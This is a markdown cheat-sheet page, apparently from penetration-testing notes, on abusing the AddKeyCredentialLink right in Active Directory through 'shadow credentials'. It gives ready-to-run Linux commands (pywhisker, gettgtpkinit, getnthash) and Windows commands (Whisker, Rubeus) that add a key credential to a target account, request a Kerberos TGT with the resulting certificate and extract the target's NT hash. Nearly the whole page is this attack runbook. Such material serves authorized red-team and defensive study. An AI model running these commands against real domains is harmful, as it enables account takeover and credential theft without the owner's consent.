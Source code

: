 ```yaml
---
title: "AddKeyCredentialLink"
date: 2024-7-31
tags: ["Shadow Credentials", "Pass-The-Cert", "AddkeyCredentialLink", "Active Driectory", "Windows", "Whisker", "Pywhisker"]
---
```


### Privesc #1: Shadow credentials

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 0. Pre-check \[optional\]

```console
python3 pywhisker.py --action list -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --dc-ip <DC> -t '<TARGET_USER>' --use-ldaps
```

#### 1. Add shadow credentials

```console
python3 pywhisker.py --action add -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --dc-ip <DC> -t '<TARGET_USER>' --use-ldaps
```

<br>

```console
# Fix module 'OpenSSL.crypto' has no attribute 'PKCS12Type'
pip3 install -I pyopenssl==24.0.0
```

#### 2. Request TGT using the PFX

```console
sudo ntpdate -s <DC> && python3 gettgtpkinit.py -cert-pfx <PFX_FILE> -pfx-pass '<GENERATED_PASSWORD>' '<DOMAIN>/<TARGET_USER>' <TARGET_USER>.ccache -dc-ip <DC>
```

#### 3. Get NT hash

```console
export KRB5CCNAME=<TARGET_USER>.ccache
```

```console
python3 getnthash.py '<DOMAIN>/<TARGET_USER>' -key <AS_REP_ENC_KEY>
```

<small>*Ref: [pywhisker](https://github.com/ShutdownRepo/pywhisker)*</small>
<br>
<small>*Ref: [PKINITtools](https://github.com/dirkjanm/PKINITtools)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 0. Pre-check \[optional\]

```console
.\whisker.exe list /domain:<DOMAIN> /target:'<TARGET_USER>' /dc:<DC>
```

#### 1. Add shadow credentials

```console
.\whisker.exe add /domain:<DOMAIN> /target:'<TARGET_USER>' /dc:<DC> /password:'<PFX_PASSWORD>'
```

#### 2. Request TGT using PFX file and get NTLM hash

```console
.\rubeus.exe asktgt /user:'<TARGET_USER>' /certificate:<BASE64_PFX> /password:'<PFX_PASSWORD>' /domain:<DOMAIN> /dc:<DC> /getcredentials /show
```

<small>*Ref: [Whisker.exe](https://github.com/eladshamir/Whisker)*</small>

{{< /tabcontent >}}
